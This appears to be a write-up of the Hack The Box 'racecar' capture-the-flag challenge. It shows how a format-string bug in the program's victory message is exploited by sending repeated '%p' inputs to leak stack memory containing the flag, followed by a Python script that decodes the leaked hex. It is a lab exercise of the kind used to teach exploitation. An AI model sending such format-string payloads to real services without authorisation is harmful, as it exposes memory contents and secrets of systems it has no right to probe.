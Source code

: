 WIP
> Did you know that racecar spelled backwards is racecar? Well, now that you know everything about racing, win this race and get the flag!
#### Steps
1. Unzip the file, password `hackthebox` (given)
2. We get an ELF executable for racecar
3. Connecting to the instance through netcat and playing a few times, I found that you wil always win if you choose car 1 and race 2 or vice versa
4. After winning, it allows for user input
5. Running strings on `racecar` there a couple interesting lines about flags, one just being flag.txt
```
└─$ strings racecar | grep flag
flag.txt
%s[-] Could not open flag.txt. Please contact the creator.
```
7. Next I used radare2 with these commands to look at the main function
```
[0x00000790]> aaa
[0x00000790]> s main
[0x000013e1]> pdf
```
7. I didn't find much of interest here
8. Other note: after messing w the instance a few times, I noticed that you win the race evry time as long as you pick the first car and second race or vice versa (this is probably evident in source code, but I don't have any reverse engineering software rn so I'm improvising)
9. I decided to text for common issues with pwn CTFs (format string) and it worked!
10. Format string proof of concept:
```
[!] Do you have anything to say to the press after your big victory?                       
> %x%x%x                                                                                                                                                       

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
575831c017056617d85
```
11. This is where the source code comes in
12. First, I made a `flag.txt` file that contained a bunch of `AAAAAA`
13. Running the executable locally:
```
[!] Do you have anything to say to the press after your big victory?                                                     
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p                                                                                                                    

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x56ba0200 0x170 0x56618d85 0x8 0x60 0x26 0x1 0x2 0x5661996c 0x56ba0200 0x56ba0380 0x41414141 0x41414141 0x41414141
```
14. `%p` is for pointers
15. Since `41` is the hex representation of `A`. I know where the `flag.txt` file starts on the stack
16. The flag starts at the 12th address
17. Running on the instance
```
[!] Do you have anything to say to the press after your big victory?                                                               
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p                                                                 

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x56ed81c0 0x170 0x5661ed85 (nil) 0x1f 0x26 0x1 0x2 0x5661f96c 0x56ed81c0 0x56ed8340 0x7b425448 0x5f796877 0x5f643164 0x34735f31 0x745f3376 0x665f3368 0x5f67346c 0x745f6e30 0x355f3368 0x6b633474 0x7d213f 0x39c6d200 0xf7fa93fc 0x56621f8c 0xffa19fd8 0x5661f441 0x1 0xffa1a084 0xffa1a08c 0x39c6d200
```
18. (excluded the nil part and everything before to make decoding easier)
19. Script for decoding the flag:
```python
import re

enc_flag = "0x1f 0x26 0x1 0x2 0x5661f96c 0x56ed81c0 0x56ed8340 0x7b425448 0x5f796877 0x5f643164 0x34735f31 0x745f3376 0x665f3368 0x5f67346c 0x745f6e30 0x355f3368 0x6b633474 0x7d213f 0x39c6d200 0xf7fa93fc 0x56621f8c 0xffa19fd8 0x5661f441 0x1 0xffa1a084 0xffa1a08c 0x39c6d200"
enc_flag = enc_flag.split()[::-1]

# iterate over each chunk, convert hexadecimal characters to ASCII, and reverse the order
flag = []
for chunk in enc_flag:
    hex_chars = re.findall('..', chunk)
    
    flag_chunk = "".join(chr(int(char, 16)) for char in hex_chars[::-1] if char != '0x')
    flag.append(flag_chunk)

flag.reverse()
print(''.join(flag))
```
20. Done!
```
└─$ python3 dcdflag.py
&lùaVÀíV@íVHTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_XXXXXXX}ÒÆ9üú÷bVØ¡ÿAôaV ¡ÿ ¡ÿÒÆ9
```
